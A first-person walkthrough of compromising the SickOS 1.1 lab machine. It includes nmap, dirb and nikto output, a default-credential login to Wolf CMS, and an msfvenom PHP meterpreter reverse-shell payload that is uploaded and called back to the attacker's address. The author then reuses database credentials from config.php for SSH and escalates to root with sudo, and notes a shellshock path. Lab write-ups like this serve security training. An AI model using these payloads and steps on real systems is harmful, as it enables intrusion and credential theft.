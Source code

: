 # INTRO
This is my first machine (thats being uploaded). This machine emulates OSCP labs with the objective being to compromise the machine and gain root privileges.

# RECON AND ENUM
Using netdiscover I found the local ip of the machine and proceeded to run an nmap scan.
```
└─# nmap -A -sC -sV -Pn 192.168.1.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 21:45 +04
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.23% done; ETC: 21:45 (0:00:00 remaining)
Nmap scan report for 192.168.1.152
Host is up (0.018s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 093d29a0da4814c165141e6a6c370409 (DSA)
|   2048 8463e9a88e993348dbf6d581abf208ec (RSA)
|_  256 51f6eb09f6b3e691ae36370cc8ee3427 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.19
8080/tcp closed http-proxy
MAC Address: 1A:D6:C7:57:EB:DB (Unknown)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   17.67 ms 192.168.1.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.16 seconds

```

I can see that the port 3128 has an http proxy. I configure my browsers proxy settings to access the webpage. Nothing interesting on the page or page source. I ran dirb to search for any directories.
```
└─# dirb http://192.168.1.152 -p 192.168.1.152:3128

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan  1 21:51:09 2023
URL_BASE: http://192.168.1.152/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 192.168.1.152:3128

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.152/ ----
+ http://192.168.1.152/cgi-bin/ (CODE:403|SIZE:289)                                                                                                                                                                                          
+ http://192.168.1.152/connect (CODE:200|SIZE:109)                                                                                                                                                                                           
+ http://192.168.1.152/index (CODE:200|SIZE:21)                                                                                                                                                                                              
+ http://192.168.1.152/index.php (CODE:200|SIZE:21)                                                                                                                                                                                          
+ http://192.168.1.152/robots (CODE:200|SIZE:45)                                                                                                                                                                                             
+ http://192.168.1.152/robots.txt (CODE:200|SIZE:45)                                                                                                                                                                                         
+ http://192.168.1.152/server-status (CODE:403|SIZE:294)                                                                                                                                                                                     
                                                                                                                                                                                                                                             
-----------------
END_TIME: Sun Jan  1 21:51:49 2023
DOWNLOADED: 4612 - FOUND: 7
```
The robots.txt file gives us the following and leads to a content management system called wolfcms.
```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```
http://192.168.1.152/wolfcms directs to the CMS with nothing special on the page. I tried entering /admin and /login to get to a login page but with no success I searched up the admin page directory for wolfcms and found http://192.168.152/?/admin. Trying to capture the network reqeust I entered the standard credentials admin:admin and I got access.

# EXPLOITATION

I browsed further and came across the file manager and uploaded a reverse tcp meterpreter payload I generated using msfvenom to /public and connected to it with a listener from msfconsole.
```
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.135 LPORT=4444 -f raw -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
Saved as: shell.php
```
After gaining a meterpreter session I found a config.php file and I cat the contents out to find credentials.

# PRIVILEGE ESCALATION

```
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```
Moreover I found a user called sickos in the home directory.
```
meterpreter > ls
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2015-09-22 07:50:58 +0400  sickos
```
I tried to ssh to sickos with the credentials from the config file and it worked.
```
└─$ ssh sickos@192.168.1.152   
The authenticity of host '192.168.1.152 (192.168.1.152)' can't be established.
ECDSA key fingerprint is SHA256:fBxcsD9oGyzCgdxtn34OtTEDXIW4E9/RlkxombNm0y8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.152' (ECDSA) to the list of known hosts.
sickos@192.168.1.152's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Jan  2 00:57:57 IST 2023

  System load:  0.0               Processes:           110
  Usage of /:   4.3% of 28.42GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 192.168.1.152
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan  1 16:35:01 2023 from 192.168.1.135
```
And then I simply did 'sudo su' to gain root with the password john@123.
```
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# cd /root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:~# 
```
There is also another path to root with a shellshock CVE, a nikto scan shows us this.
```
└─# nikto -h 192.168.1.152 --useproxy 192.168.1.152:3128
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.152
+ Target Hostname:    192.168.1.152
+ Target Port:        80
+ Proxy:              192.168.1.152:3128
+ Start Time:         2023-01-01 23:35:22 (GMT4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Retrieved via header: 1.0 localhost (squid/3.1.19)
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-cache-lookup' found, with contents: MISS from localhost:3128
+ Uncommon header 'x-cache' found, with contents: MISS from localhost
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /robots.txt, inode: 265381, size: 45, mtime: Sat Dec  5 04:35:02 2015
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Server banner has changed from 'Apache/2.2.22 (Ubuntu)' to 'squid/3.1.19' which may suggest a WAF, load balancer or proxy is in place
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_URL 0
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
```
